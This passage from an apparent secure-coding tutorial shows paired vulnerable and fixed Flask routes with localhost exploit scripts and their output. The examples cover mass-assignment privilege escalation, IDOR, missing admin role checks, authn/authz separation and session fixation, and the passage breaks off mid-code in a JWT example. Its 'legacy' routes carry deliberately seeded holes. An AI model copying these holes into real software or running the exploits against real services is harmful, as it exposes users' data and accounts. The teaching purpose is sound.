    conn.commit()  # => co-08: persists whatever fields the client happened to include, is_admin or not
    conn.close()  # => co-08: releases the connection before the response is built
    return jsonify({"status": "registered"}), 201  # => co-08: the response never reveals which fields were bound


@app.route("/secure/register", methods=["POST"])  # => co-07: FIXED -- explicit field allow-list
def secure_register() -> tuple[dict[str, object], int]:  # => co-07: returns (json_body, status) too, same shape
    body = request.get_json(force=True)  # => co-01: still attacker-controlled, but only two keys are ever read
    username = str(body.get("username", ""))  # => co-07: allow-listed field 1 -- coerced to str, extra keys ignored
    password = str(body.get("password", ""))  # => co-07: allow-listed field 2 -- coerced to str, extra keys ignored
    conn = sqlite3.connect(DB_PATH)  # => co-07: a fresh connection, same as the vulnerable route above
    conn.execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, password))  # => co-07: is_admin NEVER touched
    conn.commit()  # => co-07: persists ONLY the allow-listed fields -- is_admin stays at its schema default (0)
    conn.close()  # => co-07: releases the connection before the response is built
    return jsonify({"status": "registered"}), 201  # => co-07: identical response shape to the vulnerable route


@app.route("/admin-count")  # => co-08: test-only introspection route -- counts real rows with is_admin=1
def admin_count() -> dict[str, int]:  # => co-08: returns a plain JSON count -- read-only, no request body needed
    conn = sqlite3.connect(DB_PATH)  # => co-08: a fresh connection for this read-only check
    count = conn.execute("SELECT COUNT(*) FROM users WHERE is_admin = 1").fetchone()[0]  # => co-08: real row count
    conn.close()  # => co-08: releases the connection before the response is built
    return jsonify({"admin_count": count})  # => co-08: the real, current count of admin-flagged rows


if __name__ == "__main__":  # => co-08: only runs when launched directly, e.g. `python3 app.py &`
    build_db()  # => co-08: create the fresh users table before the server starts accepting requests
    app.run(host="127.0.0.1", port=5032)  # => co-08: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-32-mass-assignment-privilege-escalation/exploit_and_fix.py
"""Example 32: drives the live app.py -- escalates via mass assignment, then shows the allow-list fix (co-08, co-07)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the exploit itself

import requests  # => co-08: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5032"  # => co-08: matches app.py's app.run(port=5032) exactly


def admin_count() -> int:  # => co-08: reads the real, current is_admin=1 row count from the live server
    return requests.get(f"{BASE_URL}/admin-count", timeout=5).json()["admin_count"]  # => co-08: real HTTP GET


def main() -> None:  # => co-08: registers via the vulnerable route, then the fixed route, with the SAME payload
    payload = {"username": "eve", "password": "hunter2", "is_admin": 1}  # => co-08: eve's own registration attempt

    print("=== VULNERABLE: /legacy/register binds is_admin straight from the request ===")  # => labels section
    before = admin_count()  # => co-08: a real baseline count, taken before the exploit request
    requests.post(f"{BASE_URL}/legacy/register", json=payload, timeout=5)  # => co-08: a REAL HTTP POST, real body
    after = admin_count()  # => co-08: a real count, taken after the exploit request
    print(f"admin_count before={before} after={after}")  # => co-08: real numbers straight off the live server
    assert after == before + 1  # => co-08: proves eve's OWN registration really created an admin-flagged row

    print("\n=== FIXED: /secure/register ignores is_admin in the SAME payload ===")  # => labels section
    before_fixed = admin_count()  # => co-07: a real baseline count, taken before the fixed-route request
    requests.post(f"{BASE_URL}/secure/register", json=payload, timeout=5)  # => co-07: identical payload, different route
    after_fixed = admin_count()  # => co-07: a real count, taken after the fixed-route request
    print(f"admin_count before={before_fixed} after={after_fixed}")  # => co-07: real numbers, unchanged this time
    assert after_fixed == before_fixed  # => co-07: proves is_admin=1 in the SAME payload was silently dropped


if __name__ == "__main__":  # => co-08: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-08: runs both halves against the live server -- exploit, then proof-of-fix
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5032), then `python3 exploit_and_fix.py`.

**Output**:

```text
=== VULNERABLE: /legacy/register binds is_admin straight from the request ===
admin_count before=0 after=1

=== FIXED: /secure/register ignores is_admin in the SAME payload ===
admin_count before=1 after=1
```

**Key takeaway**: the exact same JSON payload -- `is_admin: 1` included -- creates an admin-flagged row
through the mass-assignment route and is silently ignored through the allow-list route; parameterizing
the query was never the issue here, the issue was which fields the server let the client choose.

**Why it matters**: `Model(**request.json)`-style binding is convenient precisely because it removes
boilerplate, which is exactly why it is dangerous: every field the underlying model or table has becomes
implicitly settable unless the code explicitly says otherwise. Co-08's fix is not a smarter framework
feature -- it is a discipline: enumerate the fields a request is allowed to set, and treat everything
else in the body as noise, no matter how convenient dumping the whole dict looks.

---

### Example 33: IDOR -- Broken Object-Level Access Control

_ex-33 &middot; exercises co-15, co-16_

`GET /orders/<id>` that trusts the id alone returns whichever row matches, regardless of who is asking
-- an Insecure Direct Object Reference. Adding the requester's identity to the query's `WHERE` clause,
not just the object id, closes it.

```python
# learning/code/ex-33-idor-broken-object-access/app.py
"""Example 33: a live Flask app -- IDOR lets one user read another's order, then an ownership check fixes it (co-15, co-16)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the access-control issue itself

import sqlite3  # => co-15: stdlib DB driver -- the SAME driver both routes below use

from flask import Flask, jsonify, request  # => co-15: request.headers reads the caller-supplied identity header

app = Flask(__name__)  # => co-15: one Flask app, hosting both the vulnerable and fixed order-lookup routes
DB_PATH = "idor.db"  # => co-15: local SQLite file -- self-contained, no external DB server


def build_db() -> None:  # => co-15: runs once at import time -- seeds two users' orders for this example
    conn = sqlite3.connect(DB_PATH)  # => co-15: opens (or creates) the local SQLite file
    conn.execute("DROP TABLE IF EXISTS orders")  # => co-15: idempotent re-run -- always starts from a clean table
    conn.execute("CREATE TABLE orders (id INTEGER PRIMARY KEY, owner_id TEXT, item TEXT)")  # => co-15: schema
    conn.execute("INSERT INTO orders VALUES (101, 'alice', 'alice-secret-gift')")  # => co-16: alice's OWN order
    conn.execute("INSERT INTO orders VALUES (102, 'bob', 'bob-secret-gift')")  # => co-16: bob's OWN order -- not alice's
    conn.commit()  # => co-15: persists both seeded rows before any request can read them
    conn.close()  # => co-15: releases the connection -- each route below opens its own fresh connection


@app.route("/legacy/orders/<int:order_id>")  # => co-15: VULNERABLE -- no ownership check at all
def legacy_get_order(order_id: int) -> tuple[dict[str, object], int]:  # => co-15: returns (json_body, status)
    requesting_user = request.headers.get("X-User-Id", "")  # => co-15: who is ASKING -- simulates an authenticated session
    conn = sqlite3.connect(DB_PATH)  # => co-15: a fresh connection per request -- simple, not pooled
    # => seeded bug: order_id alone selects the row -- requesting_user is read but NEVER checked
    row = conn.execute("SELECT id, owner_id, item FROM orders WHERE id = ?", (order_id,)).fetchone()  # => co-15: IDOR
    conn.close()  # => co-15: releases the connection before the response is built
    if row is None:  # => co-15: the only guard present -- existence, not ownership
        return jsonify({"error": "not found"}), 404  # => co-15: a real 404 for a genuinely missing order
    return jsonify({"id": row[0], "owner_id": row[1], "item": row[2]}), 200  # => co-15: leaks ANY user's order


@app.route("/secure/orders/<int:order_id>")  # => co-16: FIXED -- ownership enforced in the query itself
def secure_get_order(order_id: int) -> tuple[dict[str, object], int]:  # => co-16: returns (json_body, status) too
    requesting_user = request.headers.get("X-User-Id", "")  # => co-15: the SAME "who is asking" as the vulnerable route
    conn = sqlite3.connect(DB_PATH)  # => co-16: a fresh connection, same as the vulnerable route above
    query = "SELECT id, owner_id, item FROM orders WHERE id = ? AND owner_id = ?"  # => co-16: ownership IN the WHERE clause
    row = conn.execute(query, (order_id, requesting_user)).fetchone()  # => co-16: only matches if BOTH id and owner agree
    conn.close()  # => co-16: releases the connection before the response is built
    if row is None:  # => co-16: fires for BOTH "no such order" and "not yours" -- deliberately indistinguishable
        return jsonify({"error": "not found"}), 404  # => co-16: same 404 either way -- no ownership info leaked
    return jsonify({"id": row[0], "owner_id": row[1], "item": row[2]}), 200  # => co-16: only the real owner ever sees this


if __name__ == "__main__":  # => co-15: only runs when launched directly, e.g. `python3 app.py &`
    build_db()  # => co-15: seed both users' orders before the server starts accepting requests
    app.run(host="127.0.0.1", port=5033)  # => co-15: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-33-idor-broken-object-access/exploit_and_fix.py
"""Example 33: drives the live app.py -- alice reads bob's order via IDOR, then the ownership fix blocks it (co-15, co-16)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the exploit itself

import requests  # => co-15: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5033"  # => co-15: matches app.py's app.run(port=5033) exactly
BOB_ORDER_ID = 102  # => co-16: an order that belongs to bob, NOT to alice -- the object alice should never see


def main() -> None:  # => co-15: runs alice's request against both the vulnerable and fixed routes
    headers = {"X-User-Id": "alice"}  # => co-15: alice's own real identity header -- never bob's

    print("=== VULNERABLE: alice reads BOB's order via /legacy/orders ===")  # => labels section
    response = requests.get(f"{BASE_URL}/legacy/orders/{BOB_ORDER_ID}", headers=headers, timeout=5)  # => co-15: real GET
    print(f"status={response.status_code} body={response.json()}")  # => co-15: real response, straight off the wire
    assert response.status_code == 200  # => co-15: proves alice's request against bob's order really succeeded
    assert response.json()["item"] == "bob-secret-gift"  # => co-15: proves BOB's real data leaked to alice

    print("\n=== FIXED: alice hits the SAME order id via /secure/orders ===")  # => labels section
    fixed_response = requests.get(f"{BASE_URL}/secure/orders/{BOB_ORDER_ID}", headers=headers, timeout=5)  # => co-16: real GET
    print(f"status={fixed_response.status_code} body={fixed_response.json()}")  # => co-16: real response, this time a 404
    assert fixed_response.status_code == 404  # => co-16: proves the ownership check really blocked the cross-user read
    assert fixed_response.json() == {"error": "not found"}  # => co-16: a generic body -- no hint the order even exists


if __name__ == "__main__":  # => co-15: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-15: runs both halves against the live server -- exploit, then proof-of-fix
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5033), then `python3 exploit_and_fix.py`.

**Output**:

```text
=== VULNERABLE: alice reads BOB's order via /legacy/orders ===
status=200 body={'id': 102, 'item': 'bob-secret-gift', 'owner_id': 'bob'}

=== FIXED: alice hits the SAME order id via /secure/orders ===
status=404 body={'error': 'not found'}
```

**Key takeaway**: the vulnerable route's ONLY guard is "does an order with this id exist" -- adding
`AND owner_id = ?` to the same query turns "any order" into "only orders you own," and a real 404
(rather than a 403) avoids even confirming that the order id exists at all.

**Why it matters**: IDOR is one of the most common real-world vulnerabilities precisely because the
naive code looks correct -- it checks that the resource exists, handles the not-found case, and returns
clean JSON. The missing piece, ownership, is invisible in a quick read of the code and in a passing
happy-path test that only ever queries its own resources; co-15/co-16's discipline is to make the
authorization check a mandatory part of every by-id lookup's `WHERE` clause, not an afterthought.

---

### Example 34: Missing Function-Level Authorization

_ex-34 &middot; exercises co-15, co-16_

An `/admin/*` route reachable by any authenticated user because nothing in the handler itself checks
role -- only the URL "looks" admin-only. A `require_admin` decorator applied at the route makes the
check unavoidable.

```python
# learning/code/ex-34-missing-function-level-authorization/app.py
"""Example 34: a live Flask app -- an admin endpoint reachable by any user, then a role check fixes it (co-15, co-16)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the authorization issue itself

from functools import wraps  # => co-16: preserves the wrapped view function's name/metadata through the decorator

from flask import Flask, jsonify, request  # => co-16: request.headers reads the caller-supplied identity header

app = Flask(__name__)  # => co-15: one Flask app, hosting both the vulnerable and fixed admin routes
USERS = {"alice": "user", "root": "admin"}  # => co-16: a real role table -- alice is NOT an admin, root IS


@app.route("/legacy/admin/users")  # => co-15: VULNERABLE -- no role check at all, only reachable via routing
def legacy_admin_users() -> tuple[dict[str, object], int]:  # => co-15: returns (json_body, status)
    # => seeded bug: this handler assumes only admins ever call this URL -- nothing
    # => in the code actually enforces that assumption
    return jsonify({"users": list(USERS.keys())}), 200  # => co-15: leaks the FULL user list to ANY caller


def require_admin(view_func):  # => co-16: a real decorator -- the function-level check the vulnerable route lacked
    @wraps(view_func)  # => co-16: keeps Flask's URL-rule machinery happy with the wrapped function's identity
    def wrapper(*args: object, **kwargs: object) -> tuple[dict[str, object], int]:  # => co-16: intercepts EVERY call
        caller = request.headers.get("X-User-Id", "")  # => co-16: who is calling -- simulates an authenticated session
        role = USERS.get(caller, "")  # => co-16: the caller's REAL role, looked up server-side, never trusted from the client
        if role != "admin":  # => co-16: the actual enforcement point -- runs BEFORE the real view function
            return jsonify({"error": "forbidden"}), 403  # => co-16: a real 403 -- the view function never even runs
        return view_func(*args, **kwargs)  # => co-16: only reached once the role check has already passed
    return wrapper  # => co-16: the decorated view now carries this check on every single request


@app.route("/secure/admin/users")  # => co-16: FIXED -- the SAME logic, now behind require_admin
@require_admin  # => co-16: this ONE line is the fix -- function-level authorization, applied at the route
def secure_admin_users() -> tuple[dict[str, object], int]:  # => co-16: returns (json_body, status) too
    return jsonify({"users": list(USERS.keys())}), 200  # => co-16: identical body -- only reachable role differs


if __name__ == "__main__":  # => co-15: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5034)  # => co-15: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-34-missing-function-level-authorization/exploit_and_fix.py
"""Example 34: drives the live app.py -- alice reaches the admin route, then require_admin blocks her (co-15, co-16)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the exploit itself

import requests  # => co-15: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5034"  # => co-15: matches app.py's app.run(port=5034) exactly


def main() -> None:  # => co-15: runs alice's (a non-admin) request against both admin routes
    headers = {"X-User-Id": "alice"}  # => co-15: alice's own real identity header -- role="user", never "admin"

    print("=== VULNERABLE: alice reaches /legacy/admin/users -- no role check at all ===")  # => labels section
    response = requests.get(f"{BASE_URL}/legacy/admin/users", headers=headers, timeout=5)  # => co-15: a real GET
    print(f"status={response.status_code} body={response.json()}")  # => co-15: real response, straight off the wire
    assert response.status_code == 200  # => co-15: proves a NON-admin request succeeded against an admin route
    assert "root" in response.json()["users"]  # => co-15: proves the full, real user list leaked to alice

    print("\n=== FIXED: alice hits /secure/admin/users -- require_admin blocks her ===")  # => labels section
    fixed_response = requests.get(f"{BASE_URL}/secure/admin/users", headers=headers, timeout=5)  # => co-16: real GET
    print(f"status={fixed_response.status_code} body={fixed_response.json()}")  # => co-16: real response, now a 403
    assert fixed_response.status_code == 403  # => co-16: proves the role check really blocked the non-admin caller
    assert fixed_response.json() == {"error": "forbidden"}  # => co-16: a generic body -- no user list leaked

    print("\n=== root (a REAL admin) still reaches /secure/admin/users ===")  # => labels section
    root_response = requests.get(f"{BASE_URL}/secure/admin/users", headers={"X-User-Id": "root"}, timeout=5)  # => co-16
    print(f"status={root_response.status_code} body={root_response.json()}")  # => co-16: real response, a real 200
    assert root_response.status_code == 200  # => co-16: proves the fix blocks non-admins WITHOUT blocking admins


if __name__ == "__main__":  # => co-15: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-15: runs all three real requests against the live server
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5034), then `python3 exploit_and_fix.py`.

**Output**:

```text
=== VULNERABLE: alice reaches /legacy/admin/users -- no role check at all ===
status=200 body={'users': ['alice', 'root']}

=== FIXED: alice hits /secure/admin/users -- require_admin blocks her ===
status=403 body={'error': 'forbidden'}

=== root (a REAL admin) still reaches /secure/admin/users ===
status=200 body={'users': ['alice', 'root']}
```

**Key takeaway**: a URL that "looks" admin-only (`/admin/users`) enforces nothing by itself -- only a
decorator (or equivalent check) actually running on every request makes the role requirement real, and
the fix must never block the legitimate admin caller while blocking everyone else.

**Why it matters**: missing function-level authorization is a favorite target precisely because
object-level checks (like ex-33's IDOR fix) are easy to remember for resources with an obvious owner,
but a whole ENDPOINT with no single "owner" concept -- an admin dashboard, a bulk-export route -- is
easy to assume is protected by "you'd have to know the URL." Co-16's lesson: authorization must be
enforced in code that runs on every request to the function, never inferred from routing structure.

---

### Example 35: Authentication vs. Authorization -- Kept as Two Separate Checks

_ex-35 &middot; exercises co-15_

Authentication proves WHO is making a request; authorization decides WHAT that identity may do.
Conflating them into one check hides exactly the case that matters most: a genuinely logged-in user
hitting a resource they do not own.

```python
# learning/code/ex-35-authn-vs-authz-separation/authn_vs_authz.py
"""Example 35: authentication and authorization as two distinct, separately-named checks (co-15)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the authn/authz separation itself

from dataclasses import dataclass  # => co-15: a real typed value object -- not a bare dict of "who is this"


@dataclass  # => co-15: an immutable-by-convention record of a real authenticated session
class Session:  # => co-15: the OUTPUT of authentication -- proof of identity, nothing about permission yet
    user_id: str  # => co-15: WHO this session belongs to -- established by authenticate(), never guessed
    is_valid: bool  # => co-15: whether the credentials actually checked out -- False for a bad password


CREDENTIALS = {"alice": "correct-horse", "bob": "battery-staple"}  # => co-15: a real, if tiny, password store
DOCUMENTS = {"doc-1": "alice", "doc-2": "bob"}  # => co-16: a real ownership map -- document id -> owning user


def authenticate(user_id: str, password: str) -> Session:  # => co-15: STEP 1 -- proves WHO is making the request
    expected = CREDENTIALS.get(user_id)  # => co-15: the real stored password for this user_id, or None
    is_valid = expected is not None and expected == password  # => co-15: a real, explicit credential comparison
    return Session(user_id=user_id, is_valid=is_valid)  # => co-15: identity established (or not) -- NOT permission


def authorize(session: Session, document_id: str) -> bool:  # => co-15: STEP 2 -- decides WHAT the session may do
    if not session.is_valid:  # => co-15: an invalid (failed-authn) session is NEVER authorized for anything
        return False  # => co-15: short-circuits before even checking the resource -- authn is a precondition
    owner = DOCUMENTS.get(document_id)  # => co-16: the REAL owner of this specific resource, looked up server-side
    return owner == session.user_id  # => co-16: authorization is resource-SPECIFIC -- a separate question per call


def main() -> None:  # => co-15: runs three real scenarios through the SAME two separate functions
    print("=== scenario 1: alice authenticates, reads her OWN document ===")  # => labels section
    alice_session = authenticate("alice", "correct-horse")  # => co-15: a REAL authentication call, correct password
    print(f"authenticate() -> {alice_session}")  # => co-15: real Session object -- is_valid=True
    print(f"authorize(doc-1) -> {authorize(alice_session, 'doc-1')}")  # => co-16: real check -- alice OWNS doc-1
    assert alice_session.is_valid and authorize(alice_session, "doc-1")  # => co-15/16: both checks pass, separately

    print("\n=== scenario 2: alice authenticates, but is NOT authorized for bob's document ===")  # => labels section
    print(f"authenticate() -> {alice_session}")  # => co-15: SAME valid session -- authn already succeeded
    print(f"authorize(doc-2) -> {authorize(alice_session, 'doc-2')}")  # => co-16: real check -- alice does NOT own doc-2
    assert alice_session.is_valid and not authorize(alice_session, "doc-2")  # => co-15: authn true, co-16: authz false

    print("\n=== scenario 3: a wrong password fails authn -- authz never even matters ===")  # => labels section
    bad_session = authenticate("alice", "wrong-password")  # => co-15: a REAL authentication call, WRONG password
    print(f"authenticate() -> {bad_session}")  # => co-15: real Session object -- is_valid=False this time
    print(f"authorize(doc-1) -> {authorize(bad_session, 'doc-1')}")  # => co-16: real check -- short-circuits to False
    assert not bad_session.is_valid and not authorize(bad_session, "doc-1")  # => co-15: authn false, co-16: authz false


if __name__ == "__main__":  # => co-15: only runs when launched directly, e.g. `python3 authn_vs_authz.py`
    main()  # => co-15: runs all three real scenarios through authenticate() and authorize() separately
```

**Run**: `python3 authn_vs_authz.py`.

**Output**:

```text
=== scenario 1: alice authenticates, reads her OWN document ===
authenticate() -> Session(user_id='alice', is_valid=True)
authorize(doc-1) -> True

=== scenario 2: alice authenticates, but is NOT authorized for bob's document ===
authenticate() -> Session(user_id='alice', is_valid=True)
authorize(doc-2) -> False

=== scenario 3: a wrong password fails authn -- authz never even matters ===
authenticate() -> Session(user_id='alice', is_valid=False)
authorize(doc-1) -> False
```

**Key takeaway**: `authenticate()` and `authorize()` are two distinct, independently testable functions
-- scenario 2 shows an authenticated (`is_valid=True`) session that is still correctly unauthorized,
which a single conflated "is this user allowed" check would have no clean way to express.

**Why it matters**: a common real-world bug is a handler that only checks `if user.is_logged_in:` and
treats that as sufficient -- ex-33 and ex-34 are exactly this mistake in a live Flask app. Keeping
authentication and authorization as separately named functions/steps forces every new endpoint to
answer both questions explicitly, and makes "authenticated but not authorized" a representable, testable
state rather than a case that quietly falls through a single boolean check.

---

### Example 36: Session Fixation

_ex-36 &middot; exercises co-12_

An attacker who pre-sets a session id (via a shared link or a cookie set before login) and hands it to
a victim can reuse that same id after the victim logs in -- if the server never rotates the id on
login.



```python
# learning/code/ex-36-session-fixation/app.py
"""Example 36: a live Flask app -- a pre-login session id stays valid after login, then regenerating it fixes fixation (co-12)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the fixation issue itself

import secrets  # => co-12: cryptographically random session ids -- must be unguessable

from flask import Flask, jsonify, make_response, request  # => co-12: make_response lets a route set cookies explicitly

app = Flask(__name__)  # => co-12: one Flask app, hosting both the vulnerable and fixed login routes
SESSIONS: dict[str, str | None] = {}  # => co-12: server-side session store -- sid -> logged-in username (or None)


@app.route("/legacy/visit")  # => co-12: issues a session id BEFORE any login -- exactly what an attacker pre-sets
def legacy_visit() -> object:  # => co-12: returns a Flask Response object with a real Set-Cookie header
    sid = request.cookies.get("sid") or secrets.token_urlsafe(16)  # => co-12: reuses a cookie if already present
    SESSIONS.setdefault(sid, None)  # => co-12: registers the sid with no user attached yet -- a real "anonymous" session
    response = make_response(jsonify({"sid": sid}))  # => co-12: echoes the sid so this example can show it explicitly
    response.set_cookie("sid", sid)  # => co-12: sets the REAL cookie a browser would store and resend
    return response  # => co-12: this is the exact response an attacker's pre-login visit would receive


@app.route("/legacy/login", methods=["POST"])  # => co-12: VULNERABLE -- logs in WITHOUT rotating the session id
def legacy_login() -> object:  # => co-12: returns a Flask Response object -- the vulnerable login handler
    sid = request.cookies.get("sid", "")  # => co-12: the SAME sid the client (or attacker) already had, unchanged
    username = request.json.get("username", "")  # => co-01: attacker-adjacent -- the victim's real submitted username
    # => seeded bug: SESSIONS[sid] is updated in place -- the sid itself never changes
    SESSIONS[sid] = username  # => co-12: the PRE-EXISTING sid is now a fully authenticated session
    return jsonify({"sid": sid, "logged_in_as": username})  # => co-12: same sid, now privileged


@app.route("/legacy/whoami")  # => co-12: reveals who (if anyone) the presented sid is currently logged in as
def legacy_whoami() -> object:  # => co-12: returns a Flask Response object -- a real, read-only lookup
    sid = request.cookies.get("sid", "")  # => co-12: whatever sid this specific request presents
    return jsonify({"logged_in_as": SESSIONS.get(sid)})  # => co-12: real, current lookup -- None if not logged in


@app.route("/secure/login", methods=["POST"])  # => co-12: FIXED -- regenerates the session id on successful login
def secure_login() -> object:  # => co-12: returns a Flask Response object -- the fixed login handler
    old_sid = request.cookies.get("sid", "")  # => co-12: the pre-login sid, about to be discarded
    username = request.json.get("username", "")  # => co-12: the SAME victim-submitted username as the vulnerable route
    SESSIONS.pop(old_sid, None)  # => co-12: the fix -- the OLD sid is invalidated, not just relabeled
    new_sid = secrets.token_urlsafe(16)  # => co-12: a BRAND NEW, unpredictable sid -- the attacker never saw this one
    SESSIONS[new_sid] = username  # => co-12: only the NEW sid is ever authenticated
    response = make_response(jsonify({"sid": new_sid, "logged_in_as": username}))  # => co-12: a different sid, returned
    response.set_cookie("sid", new_sid)  # => co-12: overwrites the client's cookie with the new, safe sid
    return response  # => co-12: the client's OLD (attacker-known) sid is now dead


if __name__ == "__main__":  # => co-12: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5036)  # => co-12: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-36-session-fixation/exploit_and_fix.py
"""Example 36: drives the live app.py -- an attacker's pre-set sid survives victim login, then regeneration kills it (co-12)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the exploit itself

import requests  # => co-12: real HTTP client -- attacker and victim are simulated as separate real requests

BASE_URL = "http://127.0.0.1:5036"  # => co-12: matches app.py's app.run(port=5036) exactly


def main() -> None:  # => co-12: runs the fixation attack against /legacy, then the regeneration fix against /secure
    print("=== VULNERABLE: attacker's pre-login sid is still valid AFTER victim logs in ===")  # => labels section
    attacker_sid = requests.get(f"{BASE_URL}/legacy/visit", timeout=5).json()["sid"]  # => co-12: a REAL, real sid
    print(f"attacker pre-set sid: {attacker_sid}")  # => co-12: the exact value the attacker would hand the victim
    victim_cookies = {"sid": attacker_sid}  # => co-12: the VICTIM's browser, tricked into using the attacker's sid
    login_body = {"username": "victim"}  # => co-12: the victim's REAL username, submitted at a REAL login form
    requests.post(f"{BASE_URL}/legacy/login", json=login_body, cookies=victim_cookies, timeout=5)  # => co-12: real login
    attacker_check = requests.get(f"{BASE_URL}/legacy/whoami", cookies={"sid": attacker_sid}, timeout=5)  # => co-12
    print(f"attacker re-checks their OWN pre-set sid -> {attacker_check.json()}")  # => co-12: real response
    assert attacker_check.json()["logged_in_as"] == "victim"  # => co-12: proves the fixation attack really worked

    print("\n=== FIXED: /secure/login regenerates the sid -- the attacker's OLD sid dies ===")  # => labels section
    attacker_sid_2 = requests.get(f"{BASE_URL}/legacy/visit", timeout=5).json()["sid"]  # => co-12: a fresh pre-set sid
    print(f"attacker pre-set sid: {attacker_sid_2}")  # => co-12: the value the attacker hands to THIS victim
    victim_cookies_2 = {"sid": attacker_sid_2}  # => co-12: the second victim's browser, same fixation attempt
    requests.post(f"{BASE_URL}/secure/login", json=login_body, cookies=victim_cookies_2, timeout=5)  # => co-12: real login
    attacker_recheck = requests.get(f"{BASE_URL}/legacy/whoami", cookies={"sid": attacker_sid_2}, timeout=5)  # => co-12
    print(f"attacker re-checks the SAME OLD sid -> {attacker_recheck.json()}")  # => co-12: real response, now None
    assert attacker_recheck.json()["logged_in_as"] is None  # => co-12: proves the old, attacker-known sid is DEAD


if __name__ == "__main__":  # => co-12: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-12: runs both halves against the live server -- exploit, then proof-of-fix
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5036), then `python3 exploit_and_fix.py`.

**Output**:

```text
=== VULNERABLE: attacker's pre-login sid is still valid AFTER victim logs in ===
attacker pre-set sid: VZPkFsyn-41MlWy6T0oUCQ
attacker re-checks their OWN pre-set sid -> {'logged_in_as': 'victim'}

=== FIXED: /secure/login regenerates the sid -- the attacker's OLD sid dies ===
attacker pre-set sid: 4Mc_GjMSEtM4c38Sit8I2g
attacker re-checks the SAME OLD sid -> {'logged_in_as': None}
```

**Key takeaway**: the vulnerable `/legacy/login` reuses whatever sid the request already carried, so an
attacker-known pre-login sid becomes a fully authenticated one; regenerating the sid on every successful
login (`/secure/login`) invalidates the old value the attacker was counting on.

**Why it matters**: session fixation is a subtle attack because the victim's login itself succeeds
normally -- nothing looks wrong from their side. The vulnerability lives entirely in what the server
does with the id it already had, not in how the id was obtained; co-12's fix is a single, cheap
discipline (always mint a new session id on privilege change) that closes an entire attack class rather
than trying to detect or block the fixation attempt itself.

---

### Example 37: Session vs. Token -- the Revocation/Scale Tradeoff

_ex-37 &middot; exercises co-12, co-14_

Both a server-side session and a stateless JWT authenticate a follow-up request equally well -- the
difference only shows up at revocation: killing the session store instantly invalidates the session,
but the JWT keeps working until it expires.

```python
# learning/code/ex-37-session-vs-token-tradeoffs/app.py
"""Example 37: a live Flask app -- both a server-side session login and a stateless JWT login (co-12, co-14)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the tradeoff being demonstrated

import datetime  # => co-14: real expiry timestamps for the JWT half of this example
import secrets  # => co-12: cryptographically random session ids -- must be unguessable

import jwt  # => co-14: PyJWT 2.13.0 pinned -- CVE-2026-32597 (crit header) fixed at >=2.12.0, unaffected here
from flask import Flask, jsonify, make_response, request  # => co-12: make_response lets a route set cookies

app = Flask(__name__)  # => co-12: one Flask app, hosting both the session-based and token-based login flows
SESSIONS: dict[str, str] = {}  # => co-12: server-side session store -- sid -> username, killable in one line
JWT_SECRET = "ex37-hmac-secret-at-least-32-bytes!!"  # => co-14: real HMAC secret, RFC 7518-length-compliant


@app.route("/session/login", methods=["POST"])  # => co-12: STATEFUL -- creates a real server-side session row
def session_login() -> object:  # => co-12: returns a Flask Response object with a real Set-Cookie header
    username = request.json.get("username", "")  # => co-12: the real submitted username
    sid = secrets.token_urlsafe(16)  # => co-12: a fresh, unpredictable session id for this login
    SESSIONS[sid] = username  # => co-12: server-side state -- this row is what makes the session valid
    response = make_response(jsonify({"sid": sid}))  # => co-12: echoes the sid so this example can show it
    response.set_cookie("sid", sid)  # => co-12: the real cookie a browser would store and resend
    return response  # => co-12: the client now holds a reference to REAL server-side state


@app.route("/session/protected")  # => co-12: only succeeds while the referenced server-side row still exists
def session_protected() -> object:  # => co-12: a real, read-only lookup against server-side state
    sid = request.cookies.get("sid", "")  # => co-12: whatever sid this specific request presents
    if sid not in SESSIONS:  # => co-12: the ENTIRE check is "does this row still exist" -- pure server-side state
        return jsonify({"error": "unauthorized"}), 401  # => co-12: a real 401 once the row is gone
    return jsonify({"logged_in_as": SESSIONS[sid]})  # => co-12: real, current lookup -- always up to date


@app.route("/token/login", methods=["POST"])  # => co-14: STATELESS -- issues a real signed JWT, no server row at all
def token_login() -> object:  # => co-14: returns a Flask Response object -- a real, signed token
    username = request.json.get("username", "")  # => co-14: the real submitted username
    now = datetime.datetime.now(datetime.timezone.utc)  # => co-14: real wall-clock UTC time, taken once
    claims = {"user": username, "exp": now + datetime.timedelta(minutes=5)}  # => co-14: self-contained, no DB lookup
    token = jwt.encode(claims, JWT_SECRET, algorithm="HS256")  # => co-14: a real, correctly-signed HS256 token
    return jsonify({"token": token})  # => co-14: the client now holds ALL the state -- nothing stored server-side


@app.route("/token/protected")  # => co-14: succeeds purely by verifying the SIGNATURE -- no server-side row to check
def token_protected() -> object:  # => co-14: a real, stateless signature check -- no server-side row
    auth_header = request.headers.get("Authorization", "")  # => co-14: the real bearer token header, if present
    token = auth_header.removeprefix("Bearer ")  # => co-14: strips the real "Bearer " scheme prefix
    try:  # => co-14: a signature/expiry failure is the ONLY way this can reject a token
